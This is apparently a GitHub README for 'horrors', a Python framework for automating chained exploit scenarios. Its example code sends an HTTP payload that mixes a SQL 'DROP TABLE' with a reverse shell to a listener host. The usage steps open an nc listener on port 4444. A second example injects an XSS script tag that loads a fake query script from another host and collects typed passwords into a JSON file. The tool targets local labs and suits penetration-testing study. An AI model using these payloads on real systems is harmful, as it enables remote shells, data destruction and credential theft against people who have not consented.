 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
class ReverseShell(scenarios.Scene):

    async def task(self):
        """Wait for `xxe` state triggered when remote client connects via FTP and sends the secret"""

        await self.http_post(
            'http://{rhost}:{rport}/query/'.format(**self.context),
            'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**self.context)
        )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
}

ftpd = services.FTPReader()
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story = scenarios.Scenario(**context)
story.set_debug()
story.set_proxy('http://127.0.0.1:8080')
story.add_service(ftpd)
story.add_scene(ReverseShell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    examples/vulnchain:$ victim.py
    examples/vulnchain:$ attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    examples/xssphish:$ victim.py
    examples/xssphish:$ attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
